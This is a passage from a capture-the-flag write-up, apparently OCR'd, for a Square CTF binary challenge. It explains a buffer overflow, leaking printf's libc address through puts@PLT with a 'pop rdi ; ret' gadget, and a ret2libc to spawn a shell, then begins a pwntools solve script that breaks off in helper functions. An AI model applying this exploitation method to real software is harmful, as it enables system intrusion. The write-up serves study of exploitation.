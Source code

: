 ```
        "Hello! Welcome to Square CTF, introducing everyone\'s favorite introductory three-item menu !"
        );
    puts("1. Sample");
    puts("2. Order");
    puts("3. Goodbye");
    printf("> ");
    local_c = read_num();
    if (local_c != 1) break;
    sample();
  }
  if (local_c == 2) {
    uVar1 = order();
  }
  else {
    printf("Good bye.");
    uVar1 = 0;
  }
  return uVar1;
}
```

There's a buffer overflow in `order`, where we basically get as many bytes as we want. But how do we pop a shell? We need the addresses of `system` and `"/bin/sh"`, and for that, we need to leak a pointer from `libc`. The intended solution seems to be to use the leak in `sample` (which leaks the last 4 bytes of `printf`) to find the base address, but we still wouldn't know a single byte (`0x00007fXX12345678`, `XX` is unknown and `12345678` is the leak). We could just brute force with a fixed `XX`, but the leak only succeeds a fraction of the time, since we also need to subtract the seed (seeded by `time(0)`), and our local time may be slightly off. I tried writing a script for this but it never succeeded even after many attempts.

There's another approach: if we can call `puts` with `printf@GOT` as the argument, we could leak it. Since PIE is off, we can use the buffer overflow to call `puts@PLT`, passing in `printf@GOT` as described above. Luckily, there is a `pop rdi ; ret` gadget to accomplish this. After the leak, we need to return to `_start` so we can overflow the buffer again and actually spawn a shell.

After leaking `printf`, we can calculate `libc` base and thus `system` and `"/bin/sh"`. The rest of the exploit is a simple `ret2libc`.

Here's the solve script:
```
from pwn import *
import time
import struct

def p64(x):
    return struct.pack('Q', x)
def u64(x):
    return struct.unpack('Q', x)[0]
def p32(x):
    return struct.pack('<I', x)
def u32(x):
    return struct.unpack('<I', x)[0]

def next_seed(seed):
    return seed * 0x5deece66d + 0xb & 0xffffffffffff

suppress = False
def __print(s):
    if not suppress:
        print(s)

def main():
    local = False
    if not local:
```